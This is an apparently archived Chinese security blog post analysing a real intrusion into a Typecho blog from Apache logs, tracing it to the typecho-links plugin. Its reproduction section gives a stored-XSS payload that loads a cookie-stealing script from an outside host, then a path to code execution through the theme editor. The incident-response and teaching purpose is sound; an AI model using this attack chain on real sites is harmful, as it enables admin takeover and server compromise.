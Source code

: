 ```yaml
---
layout: post
title: 分析、还原一次typecho入侵事件
categories:
- Pocket
tags:
---
```

原文地址：http://mp.weixin.qq.com/s/Qi7uGimlIbVALZSnQks72Q

收藏时间：2018-03-30 22:58:16

<div  lang="zh"><div id="img-content" nodeIndex="5"><p class="profile_meta _RIL_KEEPER_CLASS_" nodeIndex="10">
                            <label class="profile_meta_label">微信号</label>
                            <span class="profile_meta_value">xazlsec</span>
                            </p><p class="profile_meta _RIL_KEEPER_CLASS_" nodeIndex="11">
                            <label class="profile_meta_label">功能介绍</label>
                            <span class="profile_meta_value">信安之路是一个学习分享信息安全技术的平台，在这里你可以学习别人的技术和心得，你也可以分享自己的学习成果和心得体会，这是一个有温度的平台，需要你我他的共同参与，一起发扬广大，成为安全圈的一方净土，目前也是 90sec 安全论坛的战略合作伙伴。</span>
                            </p><div class="rich_media_content " id="js_content" nodeIndex="12"><blockquote nodeIndex="13"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="14">本文作者：Lz1y</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="15">赠送书籍：《Web安全深度剖析》</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="16">活动地址：<a href="http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247486791&idx=1&sn=1cde67bceaff09218fb9acb297550400&chksm=ec1e3d6fdb69b479f9ec58765eade141518ee73cc29731bbe07b8f75f9cfe515af40d479685d&scene=21#wechat_redirect" nodeIndex="104">阳春三月免费赠书啦</a></p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="17">基友 <code nodeIndex="105">szrzvdny</code> 的朋友博客被入侵了,由于是虚拟空间,所以只有 apache 访问日志以供分析</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="18">这里的日志已经做去敏操作了，以供学习:</p><blockquote nodeIndex="19"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="20">https://pan.baidu.com/s/1JUII7_ZOK1SIxnWxlzu0Hw 密码: bykr</p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="21">整个事情发生的挺突然的，我也是第一次搞这种溯源、应急响应的东西~一想到说不定就拿到了 <code nodeIndex="106">typecho</code> 的 0day，其实还是很激动的。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="22">首先分析日志，Linux 可以用 grep</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="23">我：Windows、Notepad++</p><h3 nodeIndex="24">首先直接查找木马文件</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="25">首先搜一搜常用的恶意函数，例如 Eval、assert、phpinfo()、pwd 等等</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="26"><div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/1"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="27">搜索 PHPINFO() 的时候，找到了大量的 404 页面访问记录</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="28">最后通过分析，得到了一句话木马地址为 <code nodeIndex="107">/1.php</code> 以及 <code nodeIndex="108">/1_1.php</code></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="29">由于 Apache 的 log 默认不记录 post 数据，这些文件像是凭空出现一般，接下来我们通过 IP 来反查!</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="30">通过访问一句话木马的频率，得到了以下可疑 IP:</p><blockquote nodeIndex="31"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="32">223.104.170.145</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="33">103.250.73.27</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="34">112.120.33.163</p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="35">根据访问时间，以及访问动作，锁定 <code nodeIndex="109">112.120.33.163</code> 为攻击者 IP</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="36"><div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/2"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="37">可以看到嫌疑人通过两天的踩点,在 3 月 16 日访问了 <code nodeIndex="110">/index.php/action/links-edit</code> 后，3 月 18 日入侵进了后台。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="38">可能你跟我想的一样，对没错，这就是通过 XSS 入侵的一次安全事件</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="39">github 看了源码之后发现，源程序并无 <code nodeIndex="111">action/links-edit</code> 这些函数方法</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="40">而这一切的问题都出在一款插件上: `typecho-links</p><blockquote nodeIndex="41"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="42">https://www.boke8.net/typecho-links-plugin.html</p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="43">该插件是一款管理友情链接的拓展</p><h3 nodeIndex="44">分析一波源码</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="45">主要的漏洞利用链:</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="46">垂直越权（前台添加 links）— XSS（ links 未过滤，直接入库）— CSRF （直接以管理员权限执行某些操作）</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="47">简单分析下源码~</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="48">越权，未验证用户权限</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="49"><div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/3"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="50">XSS，未过滤标签</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="51"><div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/4"/></div></p><h3 nodeIndex="52">本地复现：</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="53">搭建好博客，然后添加插件，退出登录</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="54">POST URL,虽然并未登陆，但是显示 Link 已经添加</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="55"><div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/5"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="56"><div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/6"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="57">确实添加成功了。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="58">接下来插入 <code nodeIndex="112">xss payload</code>:</p><blockquote nodeIndex="59"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="60"><code nodeIndex="113">name=<script src='http://1.1.1.1/xss.js'></script>&url=http%3A%2F%2Faaaaa&sort=aaa&image=&description=aaa&user=&do=insert&lid=</code></p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="61"><code nodeIndex="114">xss.js</code> 通过引入 JQuery 以及调用 Ajax 方法，传递 cookie</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="62"><div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/7"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="63">得到了 cookie,进入后台后</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="64">通过:</p><blockquote nodeIndex="65"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="66"><code nodeIndex="115">/admin/theme-editor.php?theme=default&file=404.php</code></p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="67"><div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/8"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="68">然后访问不存在的页面，触发包含 <code nodeIndex="116">404.php</code> 就可以了~</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="69"><div id="RIL_IMG_9" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/9"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="70"><br nodeIndex="117"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="71">写的十分粗糙，旨在记录一下第一次分析日志的经历~</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="72"><div id="RIL_IMG_10" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/10"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="73"><div id="RIL_IMG_11" class="RIL_IMG"><img src="/media/posts_images/2018-03-30-2133962296/11"/></div></p>
                </div>
                <div class="ct_mpda_wrp" id="js_sponsor_ad_area" nodeIndex="74"></div>

                
                                <p class=" _RIL_KEEPER_CLASS_" nodeIndex="78">
                        
                        <a class="reward_access" id="js_reward_link" href=""><span class="icon-reward"></span><span id="js_reward_link_text">赞赏</span></a>
                        
                    </p><p class="tips_global reward_user_tips _RIL_KEEPER_CLASS_" id="js_reward_total_parent" nodeIndex="80"><a href="" id="js_reward_total"></a>人赞赏</p>
                                <p class="tips_global _RIL_KEEPER_CLASS_" nodeIndex="84">长按二维码向我转账</p><p class="reward_tips _RIL_KEEPER_CLASS_" nodeIndex="85"></p><p class="tips_global _RIL_KEEPER_CLASS_" nodeIndex="86">受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。</p>
                                            </div>
                        
                        


                    </div>